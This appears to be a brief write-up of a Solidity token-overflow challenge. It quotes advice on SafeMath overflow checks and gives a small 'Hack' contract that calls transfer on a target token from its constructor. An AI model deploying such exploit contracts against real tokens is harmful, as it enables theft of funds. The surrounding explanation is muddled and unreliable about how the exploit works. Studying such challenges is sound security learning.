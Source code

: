 

```
Overflows are very common in solidity and must be checked for with control statements such as:

if(a + c > a) {
  a = a + c;
}
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

a = a.add(c);
If there is an overflow, the code will revert.

```


Basically just for each deployment of the contract attack script, you increment the coin balance by actually one. 


```


contract Hack {

    constructor(address _target) public {
        IToken(_target).transfer(msg.sender, 100);
    }

}

```

This causes to send 100 coins instead of one token each increment. 



